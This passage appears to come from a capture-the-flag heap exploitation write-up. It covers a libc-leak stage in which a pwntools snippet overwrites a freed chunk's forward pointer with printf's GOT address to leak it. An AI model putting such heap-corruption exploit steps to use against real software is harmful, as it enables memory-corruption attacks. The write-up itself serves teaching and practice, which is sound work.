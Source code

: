 ![exe-leak.png](images/exe-leak.png)

### Stage 3: Leak libc address

To leak the address of libc, I will try to leak the address of printf. After 2 stage above, we now have just 2 freed 0x50-byte chunks:

![heap-bin-check-0x50-byte-chunk.png](images/heap-bin-check-0x50-byte-chunk.png)

We will want to delete the second secret to have 3 freed 0x50-byte chunks to make sure so that we can overwrite the forward pointer get the printf address leaked:

```python
delete(2)
payload = flat(
	exe.got['printf'], 0x100,
	1
	)
create(b'C'*8, 0x48, payload, 1, useprev=0)
printf_addr = u64(show(2)[:8])
log.info("Printf address: " + hex(printf_addr))
```
